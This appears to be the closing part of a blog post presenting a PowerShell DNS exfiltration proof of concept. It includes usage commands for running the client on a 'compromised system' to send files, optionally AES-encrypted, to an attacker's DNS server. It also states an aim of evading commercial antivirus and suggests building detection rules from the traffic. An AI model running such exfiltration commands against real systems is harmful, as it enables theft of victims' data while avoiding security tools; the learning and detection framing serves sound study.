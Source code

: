 **Disclaimer**: I have tested the server on the same LAN as the victim computer and it goes really fast, as the client receives the query response quickly. When doing the tests on a public jumpbox (e.g. in an AWS VPS), the process is **much more slower**, as the client side repeats the query multiple times. The query responses arrive, but they seem to be ignored by the client side. I'm not sure why and this is something I need to speed up the process. After all, this tool is still just a nice PoC :-D

## Client
Using the client should be straightforward: Clone the github project, copy the folder "client" to the compromised system, open a PowerShell terminal and invoke:
```powershell
# Get help, buddy
.\Fulton.ps1 -?
# Exfiltrate a file 
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns>
# Exfiltrate a file encrypting it with AES first (you need to inform your fultonserver about the encryption as well with the flag -e ENCRYPTION and -a PASSWORD). Disclaimer: Do not take this encryption or the XOR one seriously, take it more as an obfuscation method.
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns> -EncryptionMethod AES -Password Strong_Password_yes_123
```

How does this traffic is seen in `Wireshark/tcpdump`?

![Wireshark view of exfiltration](../assets/img/posts/dns-exfil-pcap.png)
_This is not your average DNS traffic_

As you can observe, this traffic looks really suspicious. 
Here's your chance to design detection rules based in the entropy and frequency of the DNS queries!

# Github Project
Here's the code:
* [https://github.com/felmoltor/psdnsexfil](https://github.com/felmoltor/psdnsexfil)

# Conclussions
I did this tool as a way to learn how DNS exfiltration works under the hood. Another objective was to have something that would not be flagged as malicious by comercial AV products. I did not set other grandious objectives beyond these two, but I thought it is nice if I shared the tool with other people.
